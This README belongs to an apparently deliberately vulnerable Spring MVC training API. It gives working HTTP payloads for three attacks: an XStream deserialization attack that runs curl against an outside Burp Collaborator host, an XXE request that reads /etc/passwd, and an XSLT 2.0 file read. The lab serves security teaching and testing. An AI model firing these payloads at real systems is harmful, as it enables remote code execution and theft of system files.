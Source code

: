 # Sample Spring MVC API vulnerable to deserialization attacks

1. `git clone https://github.com/eoftedal/deserialize.git`
2. `cd deserialize`
3. `mvn jetty:run`

Accessible on port 8080

### Running in docker
1. `git clone https://github.com/eoftedal/deserialize.git`
2. `cd deserialize`
3. `docker build -t deserialize .`
4. `docker run -p 8080:8080 -it deserialize`

## Normal request

```
POST /api/contacts HTTP/1.1
Host: localhost
Content-Type: application/xml
Accept: application/xml

<contact>  
    <id>1</id>
    <firstName>yo</firstName>
    <lastName>lo</lastName>
    <email>yo@lo.no</email>
</contact>  
```

## Deserialization attack

```
POST /api/contacts HTTP/1.1
Host: localhost
Content-Type: application/xml
Accept: application/xml

<dynamic-proxy>  
  <interface>org.insecurelabs.api.contacts.Contact</interface>  
  <handler class="java.beans.EventHandler">  
    <target class="java.lang.ProcessBuilder">
      <command><string>/usr/bin/curl</string><string>http://[yourid].burpcollaborator.net</string></command>
    </target>
    <action>start</action>
  </handler>  
</dynamic-proxy> 
```

## XXE

```
POST /api/contacts HTTP/1.1
Host: localhost
Content-Type: application/xml
Accept: application/xml

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
    <!ELEMENT string (#PCDATA)>
    <!ENTITY content SYSTEM "file:/etc/passwd">
]>
<contact>  
    <id>1</id>
    <firstName>&content;</firstName>
    <lastName>lo</lastName>
    <email>yo@lo.no</email>
</contact>
```

## XSLT 2.0

```
POST /api/contacts/1/html HTTP/1.1
Host: localhost
Content-Type: application/xslt
Accept: text/html
Content-Length: 241

<?xml version="1.0" encoding="UTF-8" ?>
<xsl:stylesheet version="2.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
 <xsl:template match="/">
  <xsl:value-of select="unparsed-text('/etc/passwd')"/>
 </xsl:template>
</xsl:stylesheet>
```


# Resources
http://www.pwntester.com/blog/2013/12/23/rce-via-xstream-object-deserialization38/
